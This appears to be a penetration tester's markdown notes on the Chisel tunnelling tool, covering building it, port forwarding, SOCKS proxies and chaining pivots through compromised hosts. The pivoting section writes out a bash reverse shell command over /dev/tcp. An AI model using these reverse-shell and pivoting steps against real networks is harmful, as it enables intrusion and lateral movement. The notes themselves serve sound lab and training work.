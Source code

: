 # Chisel

Given the discrepancy between term used in [[Port-Redirection-And-Tunnelling]] as a authorial decision I am just going to try standardise the Offensive Security terminology - so read the linked article for information regard why this repository uses a particular set of definitions.

[Chisel](https://github.com/jpillora/chisel.git) *"is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (Golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network."*

![](chiselworksthisway.png)


## Compilation and Shrinking the binary

```bash
#!/bin/bash
git clone https://github.com/jpillora/chisel.git 
cd chisel/
# On Victim machine:
ldd --version # linux and windows


# To mimise binary size
# -s strip binary of debug info
# -w strip of dwarf infomation
go build -ldflags="-s -w" 
# Build for windows
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
upx chisel

# IPsec stuff I failed to get workingchisel server --port 8080 --reverse
go build -ldflags="-s -w"
upx brute chisel
chiselsize=$(du -hs chisel)
echo "Chisel is now ready and minimised: "
echo $chiselsize
```

Ran either on Attack box or target box as a server or client

- Regarding `--socks5` and `:socks`
	- *"When the chisel server has `--socks5` enabled, remotes can specify "socks" in place of remote-host and remote-port.The default local host and port for a "socks" remote is 127.0.0.1:1080. Connections to this remote will terminate at the server's internal SOCKS5 proxy."*

- Regarding `--reverse` and `R:`... TLDR: `--reverse` allows reverse port forwarding, `R:` perform reverse port forward
	- *"When the chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote that they are reversed. That is, the server will listen and accept connections, and they will be proxied through the client which specified the remote. Reverse remotes specifying "`R:socks`" will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy."*

Capture `chisel` traffic with `tcpdump` 
```bash
sudo tcpdump -nvvvXi tun0 tcp port $PORT
```

## Local Port Forwarding

```bash
# AttackBox
# -host otherwise default is 0.0.0.0
# -v is useful for checking connection 
# interfaceIP host ip for a tunX 
chisel server --host $interfaceIP -p 10000 
# Client
chisel client $interfaceIP:10000 127.0.0.1:10001
```

## Remote/Reverse Port Forwarding

```bash
# AttackBox
# -host otherwise default is 0.0.0.0
# -v is useful for checking connection 
# interfaceIP host ip for a tunX 
chisel server --host $interfaceIP -p 10000 --reverse
# Client
# R .. reverse from
# :$local_host == any interface opening a :$local_port
# To some :$remote_host:$remote_port
chisel client $interfaceIP:10000 R:$local_host:$local_port:$remote_host:$remote_port
# For example from the machine with the server you want to curl an internal webpage on 10.10.11.1:443, with access only to a client on 10.10.10.1
chisel client $serverIP:10000 R:10.10.10.1:12345:10.10.11.1:443
```

## Dynamic Port Forwarding  

```bash
chisel server --host $interfaceIP -p 10000 -v --socks5
chisel client $interfaceIP:10000  10001:socks
# comment sock4 ... and add to /etc/proxychains4.conf:
socks5 $serverIP $serverPort 
```

## Reverse Dynamic Socks Proxy

```bash
chisel server --host $interfaceIP -p 10000 -v --socks5 --reverse
chisel client $interfaceIP:10000  R:10001:socks
# comment sock4 ... and add to /etc/proxychains4.conf:
socks5 $serverIP $serverPort 
```

## Reverse Pivot with Chisel Explained:

Chisel is useful when you can not port forward with ssh. You would then need chisel for reverse pivoting, which is the reverse of port forward as the  **Remote box is listening** to connect back the attack to open up the tunnel. For information about [[Port-Redirection-And-Tunnelling]].

```bash
# AttackBox
chisel server -p 10000 -reverse # -v is useful for checking connection 
# Client
chisel client $attackboxIP:1000 R:8001:$targetip:$targetport
# Accessing through the tunnel on Attackbox
curl 127.0.0.1:8001 # will then access $clientip:$port
```


## Local Pivots and Chaining with Chisel Explained

Using `nohup` and `&` will background a job on a shell - very useful on Linux; for Windows there is dos `start /B chisel.exe` or PowerShell `start-job { chisel.exe ... }`.

Presuming you have a reverse shell on both 192.168.0.1 and 192.168.0.2, where `chisel server` has opened port `10001` from `nohup ./chisel client 10.10.10.10:10000 10002:127.0.0.1:10002 &` with second reverse shell on 192.168.0.2 being: `bash -c 'bash -i >& /dev/tcp/192.168.0.1/10001 0>&1'`. Beware the example below does not contain authentication mechanism used by `chisel` for most to keep the commands a short as possible, but use one and consider the following as two example the second (multiple pivots) being a extension of the first (single pivot):
```bash
# 10.10.10.10 = kali
# 192.168.0.1 = externally facing compromised box 
# 192.168.0.2 = internal virtual network not exposed to internet
# 192.168.0.3 = internal virtual network not exposed to internet

# Single Pivot
# Kali -> Box1 -> Box2
# Kali:
chisel server -host 10.10.10.10 -p 10000 --reverse --sock5 -v
./chisel client 127.0.0.1:10011 socks # $Kaliclient_pivot_toBox2 

# 192.168.0.1
# Box 1 server for pivoting from Box 2
./chisel server -host 192.168.0.1 --reverse --socks5 -p 11000
# Connect back to the server on kali through $Kaliclient on 127.0.0.1:10011
nohup ./chisel client 10.10.10.10:10000 R:10011:127.0.0.1:11000 &

# 192.168.0.2 - 
nohup ./chisel client 192.168.0.1:10002 10002:127.0.0.1:10002 &

```

```bash
# Kali <-> Box 1 <-> Box 2 <-> Box 3 
# Server
# Client Reverse -> Remote Server
# Client Sock -> Local Server

# Kali
./chisel server -host 10.10.10.10 --reverse --socks5 -p 10000 
./chisel client 127.0.0.1:10011 socks # $Kaliclient_pivot_toBox2
./chisel client 127.0.0.1:10012 socks # $Kaliclient_pivot_toBox3
# Box 1 <-> Kali
nohup ./chisel client 10.10.10.10:10000 10001:socks


# Box 1 server for pivoting from Box 2
./chisel server -host 192.168.0.1 --reverse --socks5 -p 11000
# Connect back to the server on kali through $Kaliclient on 127.0.0.1:10011
nohup ./chisel client 10.10.10.10:10000 R:10011:127.0.0.1:11000 &

# Box 2 -> Box 1 -> Kali
# Box 1
nohup ./chisel client 127.0.0.1:11012 socks & # $Box1client
nohup ./chisel client 10.10.10.10:10000 R:10011:127.0.0.1:11011 & # $Kaliclient_pivottoBox3
# Box 2
./chisel server -host 192.168.0.2 --reverse --socks5 -p 12000 
# Connect back to the server on Box 1 through $Box1client on 127.0.0.1:11012
nohup ./chisel client 192.168.0.1:11000 R:11012:127.0.0.1:12000 &
# Box 3 192.168.0.2 
# shell 192.168.0.2 1200?


```



[Consideration for Windows](https://learn.microsoft.com/en-US/troubleshoot/windows-client/deployment/create-user-defined-service)

## `SSH` and `chisel` with `ncat` 

If we has chisel socks proxy we can ssh into 10.10.10.10 with both `ssh` and `ncat` through the pivot! `ssh` plus `ncat` and `ProxyCommand` configuration option for SSH SOCKS Proxy
```bash
# SSH Formatting Tokens for ProxyCommand
# %h = host
# %p = port
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' admin@10.10.10.10
```

## 0xDF's TD;DR Cheat Sheet 

Start server listening on 8000:

`./chisel server -p 8000 --reverse`

From victim machine:

Command | Description
--- | ---
`chisel client 10.10.14.3:8000 R:80:127.0.0.1:80` | Listen on Kali 80, forward to localhost port 80 on client
`chisel client 10.10.14.3:8000 R:4444:10.10.10.240:80` | Listen on Kali 4444, forward to 10.10.10.240 port 80
`chisel client 10.10.14.3:8000 R:socks` | Create SOCKS5 listener on 1080 on Kali, proxy through clie

For SOCKS proxies don't forget `proxychains` and it configuration!


## References

[0xDF Tunneling with Chisel and SSF](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
[Alexis Rodriiguez Medium](https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683)
[Ippsec.Rocks](https://ippsec.rocks/?#)
[hdks](https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/#reverse-dynamic-socks-proxy)